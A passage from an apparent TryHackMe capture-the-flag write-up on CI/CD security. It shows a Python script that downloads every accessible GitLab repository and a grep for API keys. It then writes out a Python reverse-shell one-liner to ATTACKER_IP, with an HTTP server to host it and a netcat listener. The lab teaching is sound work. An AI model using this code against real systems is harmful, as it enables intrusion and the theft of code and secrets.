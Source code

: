 ```python
projects = gl.projects.list(all=True)

# Enumerate through all projects and try to download a copy
for project in projects:
    print ("Downloading project: " + str(project.name))
    #Generate a UID to attach to the project, to allow us to download all versions of projects with the same name
    UID = str(uuid.uuid4())
    print (UID)
    try:
        repo_download = project.repository_archive(format='zip')
        with open (str(project.name) + "_" + str(UID) +  ".zip", 'wb') as output_file:
            output_file.write(repo_download)
    except Exception as e:
        # Based on permissions, we may not be able to download the project
        print ("Error with this download")
        print (e)
        pass
```
![[CTFWriteups/CICD and Build Security/CI CD Imgs/Pasted image 20250228014439.png]]
If you run into a problem with missing dependencies the easiest way to solve this on the Attackbox is by making a python virtual environment. Then just install the package.
![[CTFWriteups/CICD and Build Security/CI CD Imgs/Pasted image 20250228014624.png]]
Now we can run the enumerator and it will download a bunch of files
![[CTFWriteups/CICD and Build Security/CI CD Imgs/Pasted image 20250228014649.png]]
We will be focusing on the mobile app file, let's unzip it.
![[CTFWriteups/CICD and Build Security/CI CD Imgs/Pasted image 20250228014737.png]]
Then we can cd in and use `grep -iR key *` to find any references to key in the directory.
![[CTFWriteups/CICD and Build Security/CI CD Imgs/Pasted image 20250228014812.png]]
This worked and we can now finished with this task.
![[CTFWriteups/CICD and Build Security/CI CD Imgs/Pasted image 20250228014057.png]]
```
.gitignore
branches
unauthorised tampering
THM{You.Found.The.API.Key}
```
## Task 6: Securing the Build Process

This task is pretty straight forward. Start by forking the `Merge Test` project in gitlab. 

Create a new directory on the Attackbox using 
```
mkdir task6
cd task6
```
Create a file called `shell.sh` and put the following code inside:
```bash
/usr/bin/python3 -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("ATTACKER_IP",8081)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); p=subprocess.call(["/bin/sh","-i"]);'
```
Host the file on using a simple python http server:
```
python3 -m http.server 8080
```
Create a listener the reverse shell will attach to:
```
root@AttackBox:~$ nc -lvp 8081 
Listening on 0.0.0.0 8081 
```